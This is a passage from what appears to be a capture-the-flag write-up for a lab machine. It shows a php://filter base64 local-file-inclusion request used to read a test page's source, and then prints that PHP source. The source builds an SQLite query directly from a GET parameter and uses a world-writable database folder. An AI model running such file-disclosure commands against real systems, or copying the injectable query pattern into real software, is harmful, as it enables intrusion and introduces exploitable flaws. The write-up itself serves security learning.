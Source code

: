 ```
</html>
```

This sounds very interesting – there seems to be some sort of test page and a writable folder! We can get the code of test page using the well known php filter "trick":

```
➜  kryptos python3 kryptos_request.py get 10.10.16.66 8000 enpq2gj8fe359a9dnivtsvl3ma http://127.0.0.1/dev/index.php\?view\=php://filter/convert.base64-encode/resource\=sqlite_test_page

<base64 result>
```

The resulting base64 string can be decoded revealing the following page:

```php
<?php
$no_results = $_GET['no_results'];
$bookid = $_GET['bookid'];
$query = "SELECT * FROM books WHERE id=".$bookid;
if (isset($bookid)) {
   class MyDB extends SQLite3
   {
      function __construct()
      {
     // This folder is world writable - to be able to create/modify databases from PHP code
         $this->open('d9e28afcf0b274a5e0542abb67db0784/books.db');
      }
   }
   $db = new MyDB();
   if(!$db){
      echo $db->lastErrorMsg();
   } else {
      echo "Opened database successfully\n";
   }
   echo "Query : ".$query."\n";

if (isset($no_results)) {
   $ret = $db->exec($query);
   if($ret==FALSE)
    {
    echo "Error : ".$db->lastErrorMsg();
    }
}
else
{
   $ret = $db->query($query);
   while($row = $ret->fetchArray(SQLITE3_ASSOC) ){
      echo "Name = ". $row['name'] . "\n";
   }
   if($ret==FALSE)
    {
    echo "Error : ".$db->lastErrorMsg();
    }
   $db->close();
}
}
?>
```
